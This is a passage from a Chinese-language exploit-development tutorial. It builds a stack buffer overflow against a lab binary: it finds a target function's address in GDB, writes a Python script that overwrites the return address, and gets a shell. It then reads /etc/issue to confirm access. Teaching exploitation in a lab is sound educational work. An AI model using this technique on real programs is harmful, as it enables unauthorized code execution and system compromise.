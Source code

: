 第一条指令的地址是`0x000000000040060d`。此外，我们还可以使用`print`功能：

```
$ print shell_pwn
```

在以下屏幕截图中可以看到前面命令的输出：

![](../images/00246.jpeg)

完美的现在，让我们构建我们的最终开发：

```
#!/usr/bin/python
 from struct import *

 buffer = ''
 buffer += 'a'*24
 buffer += pack("<Q", 0x00000040060d)
 f = open("input.txt", "w")
 f.write(buffer)
```

然后，执行它：

```
$ ./exploit.py
```

然后，从 GDB 内部运行以下命令：

```
$ run $(cat input.txt)
```

然后，代码将在`main`功能处暂停；点击*C*继续：

![](../images/00247.jpeg)

现在我们有了壳；我们试着用`$ cat /etc/issue`来执行它：

![](../images/00248.jpeg)

让我们确认一下，使用 bash shell 而不是 GDB：

```
$ ./exec $(cat input.txt)
```

在以下屏幕截图中可以看到前面命令的输出：

![](../images/00249.jpeg)

让我们尝试执行一些操作：

![](../images/00250.jpeg)

成功了！

# Windows 上的堆栈溢出
